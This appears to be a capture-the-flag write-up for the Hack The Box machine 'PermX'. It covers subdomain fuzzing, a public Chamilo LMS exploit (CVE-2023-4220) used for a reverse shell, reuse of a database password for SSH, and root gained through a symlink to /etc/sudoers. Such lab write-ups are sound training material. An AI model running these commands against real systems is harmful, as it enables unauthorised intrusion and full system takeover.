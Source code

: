 We start with nmap showing us that there is a web server and an unknown port:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: eLEARNING
|_http-server-header: Apache/2.4.52 (Ubuntu)
4446/tcp open  n1-fwp?
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Add permx.htb in /etc/hosts file

There is an eLearning website with not much forms or other pages for user interaction.
Try to do some directory listing, we find some dirs but nothing interesting in there.
Let's try to check if some subdomain are used.

```
ffuf -u http://permx.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.permx.htb" -fc 302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 59ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 77ms]
:: Progress: [19966/19966] :: Job [1/1] :: 809 req/sec :: Duration: [0:00:33] :: Errors: 0 ::
```

We found www and lms, add them to /etc/hosts and let's try to connect to them.
www seems to referencing to the primary website.
lms insteam took us to a login panel "chamilo"

Searching online we find a CVE related to chamilo:
https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS

In it we find a main.py, as explained in the github page we launch a scan:
python3 main.py -u http://lms.permx.htb -a scan

We got a "likely vulnerable", so we try the rev shell:

```
python3 main.py -u http://lms.permx.htb -a revshell
```

We start netcat on 443 and we continue the prompt of the revshell giving the info of the revshell ip and port.

And, here we go we have a rev shell!

Searching on internet we found that Chamilo's config file are located under Chamilo/app/, infact we found a configuration.php file with these juice info in:

```
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = '************';
$_configuration['db_user'] = '************';
$_configuration['db_password'] = '************';
// Security word for password recovery
$_configuration['security_key'] = '************';;

```

We notice also that there is a user called mtz:
```
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

After investigating on the www-data files we got to the point there is no other info usefull to make priv esc, so i got the idea of trying the "db_password" found before as ssh passw for user mtz and voilà we got the user!!

Now we are in with mtz user. Let's search for entry points to do priv esc.
We start linpeas and do some checks and we found out there is a script we can launch as root in /opt/acl.sh:

```
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi
```

```
/usr/bin/sudo /usr/bin/setfacl -m u: "$user":"$perm" "$target"
```

Basically, the script takes 3 input: the user, the permissions we want to set and the target file to which the permissions will be added.
The scripts does some check to prevent the input of target files out of mtz's home directory, and also check if the target it's a file.

I will be honest, it took me some times to understand how to bypass these checks, so try more times if you are stuck before giving up.

I created a symlink in /home/mtz pointing to /etc/sudoers:

ln -s /etc/sudoers /home/mtz/link

and started the script giving to mtz user wxr perms to the file the symlink is pointing to:

sudo /opt/acl.sh mtz rwx /home/mtz/link

Awesome! Now we can edit the /etc/sudoers in order to give to mtz user the permission to start /bin/bash as root:

# See sudoers(5) for more information on "@include" directives:

```
@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl.sh
mtz ALL=(ALL:ALL) NOPASSWD: /bin/bash
```

Now we just launch sudo /bin/bash and we are root!!



